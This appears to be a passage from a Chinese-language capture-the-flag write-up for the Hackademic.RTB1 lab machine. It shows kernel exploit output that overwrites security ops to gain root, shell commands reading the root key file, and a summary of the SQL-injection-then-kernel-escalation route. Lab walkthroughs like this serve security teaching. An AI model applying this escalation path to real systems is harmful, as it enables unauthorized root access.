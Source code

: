      [+] Resolved cap_ptrace_traceme to 0xc055d9d7
     [+] Resolved commit_creds to 0xc044e5f1
     [+] Resolved prepare_kernel_cred to 0xc044e452
    [*] Overwriting security ops...
    [*] Overwriting function pointer...
    [*] Triggering payload...
    [*] Restoring function pointer...
    ```
    
7. 一长串操作后，我们输入`whoami`尝试，提权成功！
    
    ```php
    // 靶机shell
    whoami
    root
    ```
    
8. 寻找之前说的`key.txt` ，`flag`可能就住在里面
    
    ```php
    // 靶机shell
    cd root // 发现root文件夹下存在key.txt
    cat key.txt // 读取
    ```
    
    `$_d&jgQ>>ak\#b"(Hx"o<la_%` 可能就是`flag`
    
    ```php
    Yeah!!
    You must be proud because you 've got the password to complete the First *Realistic* Hackademic Challenge (Hackademic.RTB1) :)
    
    $_d&jgQ>>ak\#b"(Hx"o<la_%
    
    Regards,
    mr.pr0n || p0wnbox.Team || 2011
    http://p0wnbox.com
    
    ```
    

## 思路

前端发现id参数，尝试sql注入进入到后台，提权使用内核提权